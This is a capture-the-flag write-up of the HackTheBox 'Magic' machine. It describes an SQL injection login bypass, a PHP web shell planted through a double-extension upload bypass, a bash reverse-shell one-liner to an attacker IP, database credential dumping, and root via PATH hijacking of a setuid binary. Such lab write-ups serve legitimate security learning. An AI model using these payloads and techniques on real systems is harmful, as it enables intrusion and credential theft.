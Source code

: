 
# **HACKTHEBOX – MAGIC WRITEUP**

![](logo1.png)

# **IP: 10.10.10.185**

# **Enumeration**

First, we will run nmap.

![](/nmap.png)


The scan shows 2 ports are open. Port 22 for SSH and port 80 for Apache.

I will start an all ports nmap scan ( -p ) just in case there are more open ports.

![](/nmap-allports.png)

The Apache web server has a wider attack surface, so that is what I am going to enumerate more first.

![](/homewebsite.png)

Port 80 gives a web page with a bunch of images.

Clicking an image only displays the clicked image.
![](/image-on-website.png)


# **FOOTHOLD**

There is a login button at the bottom left corner that takes me to a php login page.

![](/login.png)

Knowing that this web server has PHP files, I am going to start a gobuster for hidden directories and php files.

![](/gobuster.png)

There is a file called &quot;upload.php&quot;. Upload functions tend to be exploitable, so I am going to take a closer look at that file. Opening that files takes me back to the login page.

Whenever I meet a login page, I will always try some weak credentials. Sadly, they didn&#39;t work on this login page. So I try some SQL injection, but the page doesn&#39;t allow spaces for whatever reason. I use Burpsuite to intercept my login request and insert the SQL injection payload that way.

Username: &#39;OR 1=1 -- -

Password: doesn&#39;t matter

Press ctrl + u to URL encode and forward it to the server.

![](/sqlinjection.png)

We got logged in!

![](/upload.png)

Exploiting an upload function is easier using Burpsuite, that is where I am going to insert my payloads.

Uploading a php file returns an error.

![](/errorupload.png)

So there is some file type validations going on, we need to bypass it.

There are a few ways to validate a file. It can be through file extension, MIME type or magic bytes. So I am going to modify the request through the repeater tab (ctrl + r) hopefully bypass the file validations.

I upload a jpeg file and put some php code in it with Burpsuite.

![](/aaa.png)

This is a simple php code execution script and will run any command through the &quot;cmd&quot; parameter.

The original file name is &quot;lol.jpeg&quot; and I change it to &quot;lol.jpeg.php&quot;.

After that, I send the request to the server but I still get the error.

So I change the filename to &quot;lol.php.jpeg&quot; because there is a chance that apache .htaccess is configured in a weird way and run &quot;php.jpeg&quot; files as php.

![](/upload-success.png)

I successfully uploaded the file.

Now we need to access the file for the server to run the php code.

If you go back to the main page and click view image on an image there, the directory where the image is stored is on &quot;/image/uploads/&quot;. So I try to hit &quot;/image/uploads/lol.php.jpeg&quot;.

![](/access-thefile.png)

I successfully access the file. Now I will try injecting a command.

![](/injectcmd.png)

I run the command &quot;whoami&quot; and it returns www-data. We know for sure we have command execution.

Now we will try a reverse shell payload.

Payload: bash -c "bash -i >& /dev/tcp/10.10.14.2/9001 0>&1"

I set up a listener on port 9001, click send and we got a shell as www-data.

![](/reverseshell.png)

# **USER**

Looking at the db.php5 file, we got some credentials.

![](/db-creds.png)

Using those creds to switch user to &quot;theseus&quot; doesn&#39;t work, But we know this is a database credential, we can access the database and get more information.

But mysql is not installed so I use &quot;mysqldump&quot; instead.

Dumping the database &quot;Magic&quot; gives more credentials.

![](/creds-inside-db.png)

Using the creds from the sqldump, I can switch to user &quot;theseus&quot;.

# **ROOT**

After getting the theseus user, I like to do some find commands to see what files belong to the user.

Running this returns a lot of stuff that I am too lazy to look at.

![](/find-user.png)

So I decided to use groups instead.

If we use the groups command, theseus belongs to a group called &quot;users&quot;.

![](/find-group.png)

Running the find command with groups returns only 1 binary and it is a setuid binary.

I try running the binary and it returns a bunch of system information.

I use strace with the &quot;-f&quot; flag to follow forks on the binary to get more information and I use grep to see what commands this binary is executing.

![](/strace.png)

The binary doesn&#39;t use absolute path which means we can abuse this.

I write a simple bash reverse shell script called &quot;free&quot;.

![](/bash-payload.png)

Then I modify the $PATH and add the directory where my &quot;free&quot; script is located and put it before the others.

![](/exploit-path.png)

Then I setup a listener on port 9002 and run the sysinfo binary and we got root!

![](/root.png)

